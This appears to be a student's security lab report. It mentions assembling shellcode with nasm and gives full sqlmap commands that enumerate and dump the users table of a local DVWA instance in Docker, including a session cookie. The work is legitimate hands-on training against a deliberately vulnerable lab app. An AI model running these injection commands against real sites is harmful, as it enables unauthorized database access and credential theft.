

22110062-Dao Nguyen Phuc

Question 1:
Step 1: Compile the Shellcode Assembly Code
First, compile the shellcode written in assembly language to create an object file.

Here we are using the nasm assembler to assemble the code into an ELF (Executable and Linkable Format) 32-bit object file.
Then, link the object file to create an executable:

Question 2:
Step 1:  Run Docker by the command : docker-compose up -d
Then it will create 2 contaners

We will use a vulnerable web application, like Damn Vulnerable Web Application (DVWA) or SQLi-Labs, inside a Docker container for testing the SQL injection. 

Pull the DVWA Docker image:
docker pull vulnerables/web-dvwa

Run the DVWA container:
docker run --rm -it -p 80:80 vulnerables/web-dvwa

Access the DVWA web app by navigating to http://localhost

Step 2: Install SQLmap
1.Clone the SQLmap repository:
git clone --depth 1 https://github.com/sqlmapproject/sqlmap.git sqlmap-dev

2.Navigate to the SQLmap directory:
cd sqlmap-dev

3.Run SQLmap directly:

Answer 1:

Start the vulnerable application and identify a page with SQL Injection vulnerability

When we input some value ,we have found an injectable URL:
"http://localhost/vulnerabilities/sqli/?id=1&Submit=Submit" 

Use SQLmap to enumerate all available databases:
python3 sqlmap.py -u "http://localhost/vulnerabilities/sqli/?id=1&Submit=Submit" --cookie="PHPSESSID=58a63i3ch7sb68djgknjvqcop5; security=low" --dbs

SQLmap will test for SQL injection vulnerabilities and retrieve a list of databases:

After identifying the database (dvwa), the next step is to get the tables of the target database using SQLmap:

Use the command: python3 sqlmap.py -u "http://localhost/vulnerabilities/sqli/?id=1&Submit=Submit" --cookie="PHPSESSID=58a63i3ch7sb68djgknjvqcop5; security=low" -D dvwa -T users --columns
to show the databse of dvwa table:

now,we can retrieve the information by using command : python3 sqlmap.py -u "http://localhost/vulnerabilities/sqli/?id=1&Submit=Submit" --cookie="PHPSESSID=58a63i3ch7sb68djgknjvqcop5; security=low" -D dvwa -T users --dump

 
 it automacally enrypted the hash without using John the ripper

